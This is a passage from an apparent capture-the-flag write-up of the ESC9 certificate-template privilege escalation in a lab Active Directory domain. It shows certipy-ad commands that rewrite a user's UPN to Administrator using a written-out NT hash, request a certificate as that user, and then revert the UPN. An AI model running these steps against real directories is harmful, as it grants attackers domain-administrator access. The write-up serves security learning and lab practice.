 ### 4b. ESC9 Privilege Escalation
Certipy's [README](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc9--esc10) contains a link to a [Medium Certipy Article](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7#:~:text=ESC9%20%E2%80%94%20No%20Security%20Extension) which explains the necessary criteria for abusing ESC9 for privilege escalation.

![ESC9 Absue Details](Pasted image 20250314164000.png)
_ESC9 High-Level Abuse Details_

The management_svc user fits the criteria as it has `GenericAll` permissions over the ca_operator account, which can enroll in the CertifiedAuthentication ESC9 vulnerable certificate template. Certipy-ad is going the primary tool to abuse this privilege escalation vector. 

First, Use `GenericAll` permissions to change the ca_operator's [UserPrincipalName](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/plan-connect-userprincipalname) (UPN), the Microsoft Entra username for the user accounts, attribute to Administrator. 
```bash
certipy-ad account update -username 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn Administrator -target "10.129.231.186"
```
- `-username 'management_svc@certified.htb'` : User that has atleast GenericWrite permissions over target enrollee account. 
- `-hashes 'a091c1832bcdd4677c28b5a6a1295584'` : NT hash of management_svc
- `-user ca_operator` : Target user to update their UPN attribute. 
- `-upn Administrator` : Username to change `ca_operator`'s UPN to.
- `-target "10.129.231.186"` : Target Server, in this case the DC.

Certipy's output indicates a successful change of ca_operator's UPN to Administrator.
![Changing ca_operator's UPN](Pasted image 20250314164102.png)
_Successfully Changing ca_operator's UPN to Administrator_

Second, request a certificate from the `CertifiedAuthentication` template. This is going to authenticate using ca_operator's credentials. However, the certificate is going to use ca_operator's UPN attribute as the username for the certificate, which is the Administrator user. 
```bash
certipy-ad req -username 'ca_operator@certified.htb' -p 'password123!' -target "10.129.231.186" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
```
- `-ca 'certified-DC01-CA'` : Certificate Authority to request the certificate from. 
- `-template 'CertifiedAuthentication'` : Target certificate template. 

Certipy's output illustrates a successful enrollment, with the UPN for the certificate set to Administrator.
![Request Vulnerable Certificate](Pasted image 20250314164153.png)
_Requesting Vulnerable Certificate_

Third, revert the ca_operator's UPN back to its previous state.
```bash
certipy-ad account update -username 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn ca_operator@certified.htb
```
![Reverting ca_operator's UPN](Pasted image 20250314165149.png)
_Reverting ca_operator's UPN_
